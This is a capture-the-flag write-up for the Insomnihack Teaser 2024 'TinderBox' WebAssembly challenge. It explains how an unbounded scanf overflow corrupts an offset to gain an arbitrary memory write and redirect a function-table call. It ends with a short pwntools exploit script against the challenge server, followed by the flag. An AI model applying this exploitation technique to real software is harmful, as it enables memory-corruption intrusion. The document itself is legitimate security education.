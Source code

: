 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for the Insomnihack Teaser 2024 CTF challenge "TinderBox"' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc', 'wasm']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< figure src="/img/Insomnihack_teaser_2024/get_name.png" position="left" caption="Get name function" captionPosition="left">}}

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format string `%s`. It's clearly a buffer overflow.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< figure src="/img/Insomnihack_teaser_2024/jump_table.png" position="left" caption="Function table" captionPosition="left">}}

{{< figure src="/img/Insomnihack_teaser_2024/setValues.png" position="left" caption="setValues function" captionPosition="left">}}

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where `name` is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function as a reference to the first character of the `name` buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< figure src="/img/Insomnihack_teaser_2024/original_main.png" position="left" caption="original_main function" captionPosition="left">}}

We can't use the buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
*Note: in this stack representation the numbers in square bracket are refered to the size of the array.*

```
+______________________________+
|                              |
|  uint jump_table_offsets[4]  |
|______________________________|
|                              |
|        char name[16]         |
|______________________________|
|                              |
|       int name_offset        |
|______________________________|
|                              |
|           something          |
|_____________________________ |
|                              |
|              ret             |
+______________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions. Basically we only need to modify `jump_tables_offset[1]` from value **1** to **2**, so we'll call `win` function when we run third option in the menu.

{{< figure src="/img/Insomnihack_teaser_2024/menu.png" position="left" caption="menu function" captionPosition="left">}}

After some trial and errors we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
